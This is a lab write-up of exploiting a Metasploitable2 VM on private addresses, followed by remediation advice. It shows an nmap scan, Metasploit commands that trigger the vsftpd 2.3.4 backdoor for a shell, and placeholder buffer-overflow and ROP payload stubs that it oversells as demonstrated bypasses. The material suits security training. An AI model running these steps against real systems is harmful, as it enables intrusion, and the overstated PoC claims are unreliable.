



# Advanced Exploitation Lab
---

## Objective

To perform advanced exploitation techniques including exploit chaining, custom Proof of Concept (PoC) development, and defense bypass in a controlled lab environment using Metasploitable2.

---

## Lab Environment

```markdown
**Attacker Machine:** Kali Linux (192.168.198.128)  
**Target Machine:** Metasploitable2 (192.168.198.130)  
**Tools Used:** Metasploit, Python (pwntools), Ghidra
````

---

## Exploit Chain Execution

### Attack Flow

```mermaid
graph TD
A[Service Enumeration] --> B[Vulnerability Identification]
B --> C[Metasploit Exploit]
C --> D[Command Execution]
D --> E[System Compromise]
````

---

## Phase 1: Enumeration

### Nmap Scan

```bash
nmap -sC -sV 192.168.198.130
```

<p align="center">
  <br>
  <b>Figure 1: Nmap Scan Results</b>
</p>

### Key Findings

- FTP service (vsftpd 2.3.4) vulnerable
    
- Multiple open ports detected
    
- Outdated services running


---

## Phase 2: Exploitation

### Metasploit Exploit (vsftpd Backdoor)

```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.198.130
run
```

<p align="center">
  <br>
  <b>Figure 2: Metasploit Exploit Execution</b>
</p>

---

### Result

- Backdoor triggered successfully
    
- Command shell obtained
    
- Remote Code Execution achieved

<p align="center">
  <br>
  <b>Figure 3: Remote Shell Access</b>
</p>

---

## Exploit Log

| Exploit ID | Description            | Target IP       | Status  | Payload       |
| ---------- | ---------------------- | --------------- | ------- | ------------- |
| 001        | FTP Backdoor RCE Chain | 192.168.198.130 | Success | Command Shell |

---

## Custom PoC Development

### Description

A Python-based Proof of Concept (PoC) exploit was modified to simulate a buffer overflow attack scenario by adjusting payload size and memory overwrite structure.

---

### Modified PoC (Concept)

```python
from pwn import *

target = "192.168.198.130"
port = 21

payload = b"A" * 1024
payload += b"\xef\xbe\xad\xde"

print("[+] Sending payload...")
```

---

### Custom PoC Summary

The original exploit was modified by adjusting buffer size and payload structure to simulate a buffer overflow condition. Target parameters were updated for the lab environment, and payload delivery was optimized for reliability. This demonstrates how exploits can be adapted to different systems for successful execution.

---

## Defense Bypass (ROP Simulation)

### Description

Return-Oriented Programming was conceptually used to bypass memory protections such as Address Space Layout Randomization.

---

### ROP Concept

```python
padding = b"A" * 120
pop_rdi = 0xdeadbeef
binsh = 0xcafebabe
system = 0xfeedface

payload = padding + p64(pop_rdi) + p64(binsh) + p64(system)
```

---

### ROP Summary

Return-Oriented Programming was simulated to demonstrate bypassing memory protection mechanisms such as ASLR and DEP. By chaining existing instruction sequences, execution flow can be redirected without injecting new code. This technique highlights how attackers exploit program logic to achieve execution under restrictive environments.

---

## Findings

- Outdated FTP service vulnerable to backdoor exploit
    
- Lack of patch management enabled exploitation
    
- Weak system hardening increased attack surface
    

---

## Remediation

- Update vulnerable services (vsftpd)
    
- Disable unnecessary services
    
- Implement firewall restrictions
    
- Apply regular security patches
    
- Monitor system logs for anomalies
    

---

## Report Summary

### Title

Critical FTP Exploit Chain

### Findings

- vsftpd 2.3.4 Backdoor Vulnerability
    
- Host: 192.168.198.130
    

### Remediation

- Upgrade FTP service
    
- Restrict access to critical ports
    
- Apply security hardening
    

---

## Conclusion

This lab demonstrated successful exploitation of a vulnerable service leading to remote code execution. By combining enumeration, exploitation, and simulated advanced techniques, a full compromise of the target system was achieved, emphasizing the importance of patch management and secure configurations.

---
